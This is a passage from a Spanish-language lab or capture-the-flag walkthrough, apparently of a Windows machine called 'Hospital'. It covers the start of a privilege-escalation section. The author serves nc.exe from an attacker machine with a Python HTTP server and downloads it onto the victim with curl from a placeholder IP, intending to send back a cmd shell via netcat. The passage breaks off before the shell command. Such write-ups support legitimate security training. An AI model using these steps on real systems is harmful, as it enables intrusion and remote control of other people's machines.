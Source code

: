 ![escape](Imagenes/80.png)

--- 

## 5. Escalada de privilegios en el sistema windows

Para aún mayor comodidad con la consola, vamos a enviarnos una cmd con netcat, para ello debemos pasar el ejecutable nc.exe desde mi máquina atacante a la máquina víctima:

```
locate nc.exe
```
```
cp /ruta/al/nc.exe /ruta/de/trabajo
```

```
python -m http.server 80
```

En la máquina víctima:

```
cd C:\Users\drbrown.HOSPITAL\3D Objects
```

```
curl http://IP/nc.exe -o nc.exe
```

